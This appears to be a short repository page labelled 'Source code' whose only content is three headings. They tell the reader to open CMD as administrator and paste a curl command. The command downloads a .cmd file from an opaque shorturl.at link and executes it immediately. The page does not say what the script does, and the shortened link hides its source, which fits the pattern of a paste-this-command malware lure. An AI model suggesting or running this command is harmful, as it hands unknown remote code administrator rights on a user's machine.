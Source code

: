 <h1> - Run CMD As Admin </h1>
<h1> - Copy Script Below </h1>
<h1> - curl -L shorturl.at/gQzGr -o gQzGr.cmd & gQzGr.cmd </h1>

